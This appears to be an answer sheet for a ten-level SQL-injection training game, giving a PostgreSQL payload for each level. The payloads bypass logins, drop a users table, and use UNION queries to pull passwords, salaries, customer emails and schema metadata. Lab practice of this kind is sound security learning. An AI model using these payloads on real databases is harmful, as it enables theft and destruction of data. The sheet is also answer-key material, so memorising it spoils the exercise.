 
> [!NOTE] Note
> The first `'` is not part of the injected text, it's just there for syntax highlighting.

# Level 1

```postgresql
'jane';--
```

# Level 2

```postgresql
''; DROP TABLE users;--
```

# Level 3

```postgresql
'' OR 1=1; --
```

# Level 4

```postgresql
'' OR 1=1 LIMIT 1;--
```

# Level 5

```postgresql
'' UNION SELECT password, username FROM users;--
```

# Level 6

```postgresql
'' UNION
SELECT salary FROM staff
WHERE firstname LIKE '%_reta%'
LIMIT 1 OFFSET 0;--
```

> [!NOTE]- Get table metadata
>1. Get table names
>```postgresql
>'' UNION
>SELECT table_name
>FROM information_schema.tables
>LIMIT 1 OFFSET 0;--
>```
>
>2. Get columns of table
>```postgresql
>'' UNION
>SELECT column_name
>FROM information_schema.columns
>WHERE table_name='staff'
>LIMIT 1 OFFSET 0;--
>```

# Level 7

```postgresql
'' UNION
SELECT name, email, salary, employed_since
FROM staff--
```

# Level 8

```postgresql
'' UNION
SELECT table_name, table_type, table_rows
FROM information_schema.tables--
```

# Level 9

```postgresql
'' UNION
SELECT table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name='customers'--
```

# Level 10

```postgresql
product_id=null UNION
SELECT address, name, email
FROM customers
WHERE customer_id=3
```
